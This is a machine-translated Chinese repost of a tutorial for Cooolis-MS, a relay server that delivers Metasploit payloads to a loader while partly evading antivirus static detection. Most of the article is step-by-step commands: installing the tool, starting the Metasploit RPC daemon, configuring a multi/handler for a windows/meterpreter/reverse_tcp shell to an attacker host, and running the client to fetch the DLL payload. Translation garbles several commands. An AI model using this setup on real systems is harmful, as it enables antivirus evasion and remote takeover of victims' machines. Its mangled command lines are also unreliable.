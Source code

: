 # Cooolis-MS:支持 Metasploit 框架 RPC 的服务器

> 原文：<https://kalilinuxtutorials.com/cooolis-ms/>

[![Cooolis-MS : A Server That Supports The Metasploit Framework RPC](img/cf9eb0fd0c245d6baf1203f046665c79.png "Cooolis-MS : A Server That Supports The Metasploit Framework RPC")](https://1.bp.blogspot.com/-fCjdyTNtUwI/X3W9OwfD30I/AAAAAAAAHtk/M3a_r4fi1_UqXhEJiZ0TRKhoamGvqtPFwCLcBGAsYHQ/s728/Cooolis-ms%25281%2529.png)

**Cooolis-ms** 是一个支持 Metasploit 框架 RPC 的服务器。它用于 Shellcode 和 PE loader 工作，在一定程度上绕过杀毒软件的静态检测，并允许 Cooolis-ms 服务器与 Metasploit 服务器分开执行。

加载程序执行过程:

*   连接到 cool is-服务器
*   cool is-服务器连接到 Metasploit RPC 服务器
*   检索有效负载并将其发送回加载器

**项目优势**

*   小容量(< 600KB)
*   支持所有 Metasploit 负载
*   简单参数
*   单行
*   支持分离

**如何安装？**

*   **选择 1 >码头工人调配(推荐)**

[**点击这里**](https://www.youtube.com/watch?v=StTqXEQ2l-Y&feature=youtu.be&t=35s) 观看 YouTube 演示。

**git 克隆 https://github . com/rvn 0 xsy/cooolis-ms . git
$ CD cooolis-ms/docker
$ docker-合成 up -d**

默认监听端口:8899

*   **选择二>源代码部署**

**$ git 克隆 https://github.com/Rvn0xsy/Cooolis-ms.git
$ CD COO olis-ms
$ pip 3 install-r requirements . txt
$ python 3 server . py-h**

**如何使用？**

**如果使用 Docker 进行部署，请直接从第三步开始。**

假设这是我的 VPS: 10.20.56.41

*   **第一步，启动 Metasploit RPC 服务器**
    *   **启动 Metasploit RPC 服务器:**

**$ msfrpcd-U MSF-P MSF-U/API/1.0/-a 127 . 0 . 0 . 1**

![](img/1a87b898266a8d42277be2e4e2400478.png)

*   **第二步，启动 Cooolis-ms 服务器**

让它连接到 RPC 并监听发送有效负载的端口:

**$ python 3 server . py-U MSF-P MSF-H 127 . 0 . 0 . 1-P 55553-S-v-l 8899-S 10 . 20 . 56 . 41**

![](img/14cd2abaef51cf1c448cc08d95e7dea8.png)

*   **第三步，配置 Metasploit 监听器**

**msf5 >使用 exploit/multi/handler
ms F5>设置有效载荷窗口/meter preter/reverse _ TCP
ms F5>设置 LHOST 10.20.56.41
msf5 >设置 LPORT 8876
ms F5>exploit-j**

![](img/7a5d575f501345734b6afe2b1eb7c512.png)

*   **第四步，启动 Cooolis-ms 客户端**

**Cooolis-ms.exe-P windows/meter preter/reverse _ TCP-o LHOST = 10 . 20 . 56 . 41，LPORT=8876，Format=dll -H 10.20.56.41 -P**

![](img/f012127df30600c0faadfa8c4f1999c3.png)

**不是** e

*   Cooolis-ms.exe 的`-o`参数应该对应 msf 配置。
*   由于这个项目依赖于开源项目 [MemoryModule](https://github.com/fancycode/MemoryModule) ，所以只能支持 DLL 格式的 PAYLOAD。需要在-o 参数后面加上`Format=dll`。

[**Download**](https://github.com/Rvn0xsy/Cooolis-ms)